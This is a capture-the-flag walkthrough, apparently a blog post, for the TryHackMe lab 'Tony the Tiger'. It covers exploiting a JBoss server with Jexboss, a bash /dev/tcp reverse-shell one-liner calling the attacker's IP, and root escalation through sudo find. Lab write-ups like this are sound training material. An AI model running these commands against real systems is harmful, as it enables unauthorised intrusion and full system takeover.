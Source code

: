```yaml
---
layout: post
title: "Tony the Tiger"
date: 2022-10-20
categories: [Tryhackme, Easy-THM]
tags: [rustscan, JBoss, /etc/hosts, strings, find, SUID, GTFOBins]
image: ../../assets/img/posts/tonythetiger.png 

---
```


## Description

Learn how to use a Java Serialisation attack in this boot-to-root

|**Room**|[Tony the Tiger](https://tryhackme.com/room/tonythetiger)|
|:---:|:---:|
|**OS**|Linux|
|**Difficulty**|Easy|
|**Creator**|[cmnatic](https://tryhackme.com/p/cmnatic)|

---

Starting off with deploying the machine and quickly scanning the open ports with rustscan,

```bash
rustscan -a 10.10.68.205 --ulimit 5000
```

![image](https://user-images.githubusercontent.com/67465230/187014684-0559b94c-3035-4e1d-95ae-15d420089be2.png)

we got many ports open. 

We can scan these open ports in detail with nmap,

```bash
nmap -sC -sV -p22,80,1090,1091,1098,1099,3873,4446,4712,4713,5445,5455,5501,5500,8009,8080,8083 10.10.68.205 -oN nmap.txt
```

![image](https://user-images.githubusercontent.com/67465230/187014698-6569ed42-34b9-48e7-8ec6-f7546c5cbad7.png)
![image](https://user-images.githubusercontent.com/67465230/187014710-5ccea2cb-2fa0-418d-8b68-3aa530cddef9.png)

Result scan shows that port 22 is running ssh service, port 8080 is running Apache Tomcat server.

Let's explore port 8080 by visiting http://10.10.68.205:8080,

![image](https://user-images.githubusercontent.com/67465230/187014720-9965af0b-1dee-497d-bf6b-e63cee66c94a.png)

we got a webserver of JBOSS which has administration console and other functionalities.

Since, we are not far enough from the true website, let's resolve the domain name with IP address by `10.10.68.205	jboss.thm` in **/etc/hosts** file,

![image](https://user-images.githubusercontent.com/67465230/187014735-cb73c0c7-be61-44be-8500-30466dfba253.png)

Now, visit http://jboss.thm,

![image](https://user-images.githubusercontent.com/67465230/187014748-9cb85c56-73d3-455c-89c9-035c0acb4f48.png)

we got a blog website which do have some posts on it. Nothing fancy! 

After reading the blogs, source code of the webpage carefully, nothing can be found, so I decided to download these 2 pictures for steganography analysis,

![image](https://user-images.githubusercontent.com/67465230/187014756-683eb7d8-9e1f-4ce4-beba-1a1373d9630e.png)
![image](https://user-images.githubusercontent.com/67465230/187014762-5eb5b25a-b546-435c-9b4d-7b44f8728904.png)

Now running the strings commands to read if there any read-able string,

```bash
strings be2sOV9.jpg
```

![image](https://user-images.githubusercontent.com/67465230/187014774-feb4a973-b3e3-4916-9b75-c1288a1879a2.png)
scrolling down a bit, I actually found the flag. 

Let's visit again http://10.10.68.205:8080,

![image](https://user-images.githubusercontent.com/67465230/187014788-b786cd1c-8173-4d16-8e30-dc9867360b30.png)

we got JBOSS webserver.

Navigate to Admin Console,

![image](https://user-images.githubusercontent.com/67465230/187014792-4d310ed0-3e1d-4ef1-b8d7-805f3e2473dd.png)

website requires Credentials to login. 

Now, situation is that we don't have login credentials and we want to exploit this machine, so general idea is to look for the possible exploit on interweb. So looking for the suitable exploit for this machine, I got one - [Jexboss Github](https://github.com/joaomatosf/jexboss)

After viewing how to run the exploit, we can use it on our target,

```python
python jexboss.py -host http://10.10.68.205:8080
```

![image](https://user-images.githubusercontent.com/67465230/187014802-125e031e-21b4-42eb-bf0e-af55a66a9838.png)

after a second, we get a shell type interface where we can execute shell commands. 

Let's check what user we are with `id` command,

![image](https://user-images.githubusercontent.com/67465230/187014811-fe00e676-fed4-4af6-8326-22b27a85e62b.png)

Since we don't have much functionality on this type of shell, we can catch a legit reverse shell and improve it from there.

Using one-liner bash script, we can execute this command to get a reverse shell but first, we need to start a listener using `nc -nvlp 4444` and then executing this command,

```bash
bash -c 'exec bash -i &>/dev/tcp/10.9.0.197/4444 <&1'
```

We caught a shell as cmnatic user,

![image](https://user-images.githubusercontent.com/67465230/187014820-06fbc14e-bb6a-40b3-bd6b-d0210e40b88e.png)

Enumerating home directory,

![image](https://user-images.githubusercontent.com/67465230/187014825-ad7f909b-9567-4099-ab89-f474bf6b4f5f.png)

we got 3 users.

Let's navigate to cmnatic user's directory and list directory content,

![image](https://user-images.githubusercontent.com/67465230/187014831-4d853f3a-0b3d-4ceb-a32f-4584b999c267.png)

we have a text file name to-do.txt. This might be the file which we (cmnatic user) has to perform a certain task.

Reading the content of the file, 

![image](https://user-images.githubusercontent.com/67465230/187014954-02be54f9-ad6e-4235-8c39-668696115504.png)

This note represent how insecure this machine is (wuahahahaha!!).

Taking a look a directory content in jboss user and we got a note file,

![image](https://user-images.githubusercontent.com/67465230/187014961-44b82321-ed70-432c-a1c2-0e4bb405ae55.png)

after reading the note file, user cmnatic has left the password for jboss user.

Since we have jboss user credentials, we can switch to it,

```bash
su jboss
```

Now, since we switched to jboss user, we can see if we can run any binary with `sudo` without providing a password,

```bash
sudo -l
```

![image](https://user-images.githubusercontent.com/67465230/187014968-91c31a75-4bbf-4ad4-a8bd-01b97f55ae4e.png)

we can run **/usr/bin/find** binary without sudo command.

Looking at gtfobins at how I can escalate my privileges by executing find binary, 

![image](https://user-images.githubusercontent.com/67465230/187014995-5c932a40-068c-4504-a7fc-c8def93147fe.png)

Running the above command from GTFObins,

```bash
sudo /usr/bin/find . -exec /bin/sh -p \; -quit
```

![image](https://user-images.githubusercontent.com/67465230/187015011-79b66bcb-6fe3-4d88-88d7-9caac81d5669.png)

Uhh ohh!! We should be root by now but we are not and what's this Illegal option and what does this means? Well, maybe flag **-p** is not allowed to be used.

So, we can try running the same command but without **-p** switch this time,

```bash
sudo /usr/bin/find . -exec /bin/sh \; -quit
```

![image](https://user-images.githubusercontent.com/67465230/187015033-d9c1f058-45af-464d-8bab-cf98d2e8b6eb.png)

and we are root!!

Navigating to root directory and enumerating directory,

![image](https://user-images.githubusercontent.com/67465230/187015044-a72f4df4-860f-4aa0-bcdd-01e71d789bf5.png)

we got root.txt file. So I decide to read it but wait, it's not flag but a base64 string.

So, we will first start a python server on victim machine using `python3 -m http.server` and then using wget command to get the file on our machine,

```bash
wget http://10.10.68.205:8000/root.txt
```

Reading the content of the root.txt,

![image](https://user-images.githubusercontent.com/67465230/187015420-f5fdbd68-adfa-4067-a04f-87cc17895fdf.png)

it is base64 string.

Visit [hashes.com](https://hashes.com/en/decrypt/hash) to crack this string,

![image](https://user-images.githubusercontent.com/67465230/187015068-d48abf7b-6411-48d6-b479-4664d0da2185.png)

Cracking at first, it will give some another string so we have to again crack this,

![image](https://user-images.githubusercontent.com/67465230/187015108-312593f6-36f5-4a2d-b671-e8a0536df3c4.png)

after cracking it again, we now get the plain text string.